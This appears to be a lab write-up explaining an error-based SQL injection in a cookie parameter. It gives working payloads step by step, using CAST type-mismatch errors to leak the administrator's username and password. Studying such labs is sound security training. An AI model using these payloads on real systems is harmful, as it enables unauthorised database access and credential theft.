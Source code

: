 # 🛡️ Visible Error-Based SQL Injection via Cookie Parameter

**Vulnerability Type:** Error-based SQL Injection  
**Vulnerable Parameter:** `TrackingId` (via Cookie)  
**Goal:** Extract the password of the `administrator` user from the database

---

## 🔍 Discovery Phase

To determine if the `TrackingId` cookie is injectable, a single quote `'` was appended:

```sql
TrackingId=jXBKjwhfjPRRASYa'
```

**Result:** The server responded with a SQL syntax error, indicating that the input is being directly injected into a SQL query.

Inferred backend query:

```sql
SELECT trackingId FROM tracking_table WHERE trackingId='jXBKjwhfjPRRASYa''
```

This confirms SQL injection is possible.

---

## ✅ Confirming Injection

A double single quote was used to properly terminate the input:

```sql
TrackingId=jXBKjwhfjPRRASYa''
```

**Response:** `200 OK`  
This verifies that the injection point is functional and that the input is parsed as part of a SQL query.

---

## 🧪 Triggering Error with Type Mismatch

An intentional error was triggered using a `CAST` function:

```sql
TrackingId=jXBKjwhfjPRRASYa' AND CAST((SELECT 1) AS int) --
```

**Error Message:**
```
ERROR: argument of AND must be type boolean, not type integer
```

The query was corrected to resolve the boolean mismatch:

```sql
TrackingId=jXBKjwhfjPRRASYa' AND 1=CAST((SELECT 1) AS int) --
```

**Response:** `200 OK`  
This confirms our injection logic is correct.

---

## 🧬 Extracting Data via Subquery

To extract information from the `users` table:

```sql
TrackingId=jXBKjwhfjPRRASYa' AND 1=CAST((SELECT username FROM users) AS int) --
```

**Error Message:**
```
ERROR: more than one row returned by a subquery used as an expression
```

Modified to limit to a single row:

```sql
TrackingId=jXBKjwhfjPRRASYa' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int) --
```

However, this query was **truncated** due to character limits in the cookie field, breaking the comment section.

---

## ✂️ Fixing Payload Truncation

To shorten the payload, the original `TrackingId` value was removed:

```sql
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int) --
```

**Error Message:**
```
ERROR: invalid input syntax for type integer: "administrator"
```

This tells us:
- The query executed.
- The `username` of the first user is `administrator`.

---

## 🎯 Final Goal – Extract Password

To extract the password of the administrator:

```sql
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int) --
```

**Error Message:**
```
ERROR: invalid input syntax for type integer: "a6nlwgub2y2lk65ik6ed"
```

✅ The administrator's password is:
```
a6nlwgub2y2lk65ik6ed
```

---

## ✅ Summary

Using an **error-based SQL injection** vulnerability in the `TrackingId` cookie, we were able to:

- Confirm the vulnerability with syntax testing
- Trigger type mismatch errors to leak data
- Extract the username and password of the administrator

This lab demonstrates the power of observing server behavior through crafted inputs and parsing SQL errors to leak sensitive information.

---
